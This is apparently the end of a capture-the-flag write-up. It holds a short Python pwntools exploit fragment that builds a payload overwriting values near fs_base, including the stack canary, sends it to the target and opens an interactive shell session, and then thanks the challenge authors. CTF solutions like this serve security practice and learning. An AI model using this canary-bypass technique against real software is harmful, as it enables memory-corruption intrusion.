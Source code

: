 ```python
payload+=p64(fs_base) #0x10
payload+=p64(1) #0x18
payload+=p64(0) #0x20
payload+=p64(0) #0x28 our canary
log.info(str(fs_base-leak+0x30))
log.info(str(len(payload)))

p.sendline(str(fs_base-leak+0x30))

debug()

p.send(payload)


p.interactive()

```

good challenges , especially the last one was so creative . kudos to iyed and the other authors .
